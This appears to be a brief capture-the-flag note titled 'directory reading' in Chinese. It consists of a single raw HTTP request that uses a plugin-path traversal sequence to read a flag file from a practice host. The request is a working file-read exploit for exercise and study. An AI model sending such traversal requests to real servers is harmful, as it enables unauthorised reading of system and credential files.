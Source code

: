 # 目录读取
	- ```http
	  GET /public/plugins/alertlist/../../../../../../../../flag HTTP/1.1
	  Host: node1.anna.nssctf.cn:28299
	  Upgrade-Insecure-Requests: 1
	  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
	  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
	  Accept-Encoding: gzip, deflate
	  Accept-Language: en-US,en;q=0.9
	  Connection: close
	  ```
-